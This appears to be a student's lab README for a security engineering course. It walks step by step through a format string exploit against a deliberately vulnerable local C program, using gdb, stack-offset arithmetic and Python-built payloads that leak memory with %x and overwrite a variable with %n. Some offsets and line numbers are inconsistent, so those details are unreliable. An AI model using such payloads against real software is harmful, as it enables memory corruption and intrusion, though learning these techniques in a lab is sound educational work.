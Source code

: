# sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
```
    export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"
```
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or with flags (flgas dont work for me so I compliled with above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](../ref/image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough

![image](https://github.com/osuzuki/sec_engineering_exercises/assets/8805399/ef7206d2-c61b-4c37-b1ac-513b8251635c)

   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Note: when I re-run this my command was this:
```
run `(python -c 'print "\x28\xa0\x04\x08"+"BB" + "%x." * 143+"%n"')`
```


Output:![Alt text](image-9.png)


## Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run your update command: mine was: run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: `print target` - the value should be 0 
- type: '''next'''
- type: '''next'''
- `print target` - the value should be changed
![Alt text](image-10.png)


## Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



